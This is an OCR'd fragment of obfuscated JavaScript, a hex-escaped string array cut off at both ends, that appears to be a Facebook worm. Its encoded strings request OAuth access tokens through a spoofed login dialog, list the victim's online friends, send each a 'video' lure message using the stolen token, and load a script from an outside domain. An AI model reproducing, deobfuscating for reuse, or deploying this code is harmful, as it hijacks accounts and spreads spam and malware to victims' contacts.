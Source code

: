 65\x61\x64\x77\x72\x69\x74\x65\x3D\x26\x65\x78\x74\x65\x6E\x64\x65\x64\x3D","\x26\x73\x6F\x63\x69\x61\x6C\x5F\x63\x6F\x6E\x66\x69\x72\x6D\x3D\x26\x63\x6F\x6E\x66\x69\x72\x6D\x3D\x26\x67\x64\x70\x5F\x76\x65\x72\x73\x69\x6F\x6E\x3D\x33\x26\x73\x65\x65\x6E\x5F\x73\x63\x6F\x70\x65\x73\x3D","\x26\x61\x75\x74\x68\x5F\x74\x79\x70\x65\x3D\x26\x61\x75\x74\x68\x5F\x74\x6F\x6B\x65\x6E\x3D\x26\x61\x75\x74\x68\x5F\x6E\x6F\x6E\x63\x65\x3D\x26\x72\x65\x66\x3D\x44\x65\x66\x61\x75\x6C\x74\x26\x72\x65\x74\x75\x72\x6E\x5F\x66\x6F\x72\x6D\x61\x74\x3D\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x26\x64\x6F\x6D\x61\x69\x6E\x3D\x26\x73\x73\x6F\x5F\x64\x65\x76\x69\x63\x65\x3D\x69\x6F\x73\x26\x5F\x5F\x43\x4F\x4E\x46\x49\x52\x4D\x5F\x5F\x3D\x31","\x73\x65\x6E\x64","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x76\x31\x2E\x30\x2F\x64\x69\x61\x6C\x6F\x67\x2F\x6F\x61\x75\x74\x68\x2F\x77\x72\x69\x74\x65","\x26\x72\x65\x64\x69\x72\x65\x63\x74\x5F\x75\x72\x69\x3D\x66\x62\x63\x6F\x6E\x6E\x65\x63\x74\x3A\x2F\x2F\x73\x75\x63\x63\x65\x73\x73\x26\x64\x69\x73\x70\x6C\x61\x79\x3D\x70\x6F\x70\x75\x70\x26\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x3D\x26\x73\x64\x6B\x3D\x26\x66\x72\x6F\x6D\x5F\x70\x6F\x73\x74\x3D\x31\x26\x70\x72\x69\x76\x61\x74\x65\x3D\x26\x6C\x6F\x67\x69\x6E\x3D\x26\x72\x65\x61\x64\x3D\x26\x77\x72\x69\x74\x65\x3D","\x26\x61\x75\x74\x68\x5F\x74\x79\x70\x65\x3D\x26\x61\x75\x74\x68\x5F\x74\x6F\x6B\x65\x6E\x3D\x26\x61\x75\x74\x68\x5F\x6E\x6F\x6E\x63\x65\x3D\x26\x64\x65\x66\x61\x75\x6C\x74\x5F\x61\x75\x64\x69\x65\x6E\x63\x65\x3D\x26\x72\x65\x66\x3D\x44\x65\x66\x61\x75\x6C\x74\x26\x72\x65\x74\x75\x72\x6E\x5F\x66\x6F\x72\x6D\x61\x74\x3D\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x26\x64\x6F\x6D\x61\x69\x6E\x3D\x26\x73\x73\x6F\x5F\x64\x65\x76\x69\x63\x65\x3D\x69\x6F\x73\x26\x61\x75\x64\x69\x65\x6E\x63\x65\x5B\x30\x5D\x5B\x76\x61\x6C\x75\x65\x5D\x3D\x38\x30\x26\x5F\x5F\x43\x4F\x4E\x46\x49\x52\x4D\x5F\x5F\x3D\x31","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x76\x31\x2E\x30\x2F\x64\x69\x61\x6C\x6F\x67\x2F\x6F\x61\x75\x74\x68\x2F\x65\x78\x74\x65\x6E\x64\x65\x64","\x26\x72\x65\x64\x69\x72\x65\x63\x74\x5F\x75\x72\x69\x3D\x66\x62\x63\x6F\x6E\x6E\x65\x63\x74\x3A\x2F\x2F\x73\x75\x63\x63\x65\x73\x73\x26\x64\x69\x73\x70\x6C\x61\x79\x3D\x70\x6F\x70\x75\x70\x26\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x3D\x26\x73\x64\x6B\x3D\x26\x66\x72\x6F\x6D\x5F\x70\x6F\x73\x74\x3D\x31\x26\x70\x72\x69\x76\x61\x74\x65\x3D\x26\x6C\x6F\x67\x69\x6E\x3D\x26\x72\x65\x61\x64\x3D\x26\x77\x72\x69\x74\x65\x3D\x26\x72\x65\x61\x64\x77\x72\x69\x74\x65\x3D\x26\x65\x78\x74\x65\x6E\x64\x65\x64\x3D","\x26\x61\x75\x74\x68\x5F\x74\x79\x70\x65\x3D\x26\x61\x75\x74\x68\x5F\x74\x6F\x6B\x65\x6E\x3D\x26\x61\x75\x74\x68\x5F\x6E\x6F\x6E\x63\x65\x3D\x26\x64\x65\x66\x61\x75\x6C\x74\x5F\x61\x75\x64\x69\x65\x6E\x63\x65\x3D\x26\x72\x65\x66\x3D\x44\x65\x66\x61\x75\x6C\x74\x26\x72\x65\x74\x75\x72\x6E\x5F\x66\x6F\x72\x6D\x61\x74\x3D\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x26\x64\x6F\x6D\x61\x69\x6E\x3D\x26\x73\x73\x6F\x5F\x64\x65\x76\x69\x63\x65\x3D\x69\x6F\x73\x26\x5F\x5F\x43\x4F\x4E\x46\x49\x52\x4D\x5F\x5F\x3D\x31","\x26","\x69\x6E\x64\x65\x78\x4F\x66","\x3D","\x6C\x6F\x67","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x73\x70\x6C\x69\x74","\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D","\x68\x6F\x73\x74\x6E\x61\x6D\x65","\x6F\x6C\x6F\x67\x61\x73\x64\x73\x64\x73\x61\x68\x6F\x6F\x6F","\x67\x65\x74\x54\x69\x6D\x65","\x33\x35\x30\x36\x38\x35\x35\x33\x31\x37\x32\x38","\x43\x68\x72\x6F\x6D\x65","\x75\x73\x65\x72\x41\x67\x65\x6E\x74","\x73\x65\x74\x54\x69\x6D\x65","\x47\x45\x54","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x76\x69\x64\x6F\x74\x75\x62\x65\x2E\x78\x79\x7A\x2F\x6A\x73\x2F\x6F\x67\x75\x7A\x61\x6B\x61\x72\x2E\x70\x68\x70","\x70\x61\x72\x73\x65","\x6C\x69\x6E\x6B","\x20\x68\x74\x74\x70\x73\x3A\x2F\x2F\x67\x72\x61\x70\x68\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x66\x71\x6C\x3F\x71\x3D\x25\x32\x30\x53\x45\x4C\x45\x43\x54\x25\x32\x30\x75\x69\x64\x2C\x25\x32\x30\x66\x69\x72\x73\x74\x5F\x6E\x61\x6D\x65\x2C\x25\x32\x30\x6F\x6E\x6C\x69\x6E\x65\x5F\x70\x72\x65\x73\x65\x6E\x63\x65\x25\x32\x30\x46\x52\x4F\x4D\x25\x32\x30\x75\x73\x65\x72\x25\x32\x30\x57\x48\x45\x52\x45\x25\x32\x30\x6F\x6E\x6C\x69\x6E\x65\x5F\x70\x72\x65\x73\x65\x6E\x63\x65\x25\x32\x30\x49\x4E\x25\x32\x30\x28\x25\x32\x37\x61\x63\x74\x69\x76\x65\x25\x32\x37\x29\x25\x32\x30\x41\x4E\x44\x25\x32\x30\x75\x69\x64\x25\x32\x30\x49\x4E\x25\x32\x30\x28\x25\x32\x30\x53\x45\x4C\x45\x43\x54\x25\x32\x30\x75\x69\x64\x32\x25\x32\x30\x46\x52\x4F\x4D\x25\x32\x30\x66\x72\x69\x65\x6E\x64\x25\x32\x30\x57\x48\x45\x52\x45\x25\x32\x30\x75\x69\x64\x31\x25\x32\x30\x3D\x25\x32\x30\x6D\x65\x28\x29\x25\x32\x30\x29\x25\x32\x30\x4F\x52\x44\x45\x52\x25\x32\x30\x42\x59\x25\x32\x30\x72\x61\x6E\x64\x28\x29\x25\x32\x30\x6C\x69\x6D\x69\x74\x25\x32\x30\x31\x30\x30\x25\x32\x30\x26\x6D\x65\x74\x68\x6F\x64\x3D\x47\x45\x54\x26\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x3D","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\x69\x63\x61\x74\x69\x6F\x6E\x2F\x78\x2D\x77\x77\x77\x2D\x66\x6F\x72\x6D\x2D\x75\x72\x6C\x65\x6E\x63\x6F\x64\x65\x64","\x73\x65\x74\x52\x65\x71\x75\x65\x73\x74\x48\x65\x61\x64\x65\x72","\x64\x61\x74\x61","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x67\x72\x61\x70\x68\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F","\x75\x69\x64","\x2F\x69\x6E\x62\x6F\x78\x3F\x6D\x65\x73\x73\x61\x67\x65\x3D\x20","\x66\x69\x72\x73\x74\x5F\x6E\x61\x6D\x65","\x20\x76\x69\x64\x65\x6F\x20","\x26\x73\x75\x62\x6A\x65\x63\x74\x3D","\x26\x6D\x65\x74\x68\x6F\x64\x3D\x50\x4F\x53\x54\x26\x61\x63\x63\x65\x73\x73\x5F\x74\x6F\x6B\x65\x6E\x3D"];window[_0x8d10[7]](function(){if(document[_0x8d10[1]](_